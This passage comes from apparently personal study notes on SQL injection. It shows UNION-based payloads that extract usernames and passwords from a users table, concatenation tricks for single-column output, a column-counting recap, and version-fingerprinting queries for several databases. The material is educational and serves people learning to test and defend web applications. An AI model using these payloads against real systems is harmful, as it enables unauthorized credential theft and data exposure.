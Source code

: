    

   **If we know the name of columns and table** we can retrieve sensitive data for example

   `' UNION SELECT username, password FROM users--`

   this will retrieves login credentials ...

   

   In case we need to **retrieve multiple values within a single column**

   like `select id, name from members ... UNION SELECT username, password FROM users--`

   this will crash data types of columns not th same So we will retrieve  username, password in one column by concatenating the values together

   ' UNION SELECT username || '~' || password FROM users--

   `select id, name from members ... UNION SELECT NULL,username || '~' || password FROM users--`

   

   **RECAP :**

   `' ORDER BY #--`		> count number of column

   `' UNION SELECT [string|int|...]--`			> identify data type

   `' UNION SELECT username, password FROM users--`			> retrieve sensitive data if we know columns and table name

   if data types can't help use we can set null for data type we won't use and concatenate our target columns in one 

   

4. **Examining the database** *where you can extract information about the version and structure of the database.*

   ```sql
   -- if application infected with SQLI we can run some code ... it's generally useful to obtain some information about the database itself. This information can often pave the way for further exploitation.
   -- we can know database type in Oracle DB using this 
   SELECT * FROM v$version
   -- we can also determine what database tables exist
   SELECT * FROM information_schema.tables
   ```

   The queries to **determine the database version** for some popular database types are as follows:

   |  Database type   |           Query           |
   | :--------------: | :-----------------------: |
   | Microsoft, MySQL |    `SELECT @@version`     |
   |      Oracle      | `SELECT * FROM v$version` |
   |    PostgreSQL    |    `SELECT version()`     |

   *oracle query must include "FROM"*

   **Listing the contents of the database :**
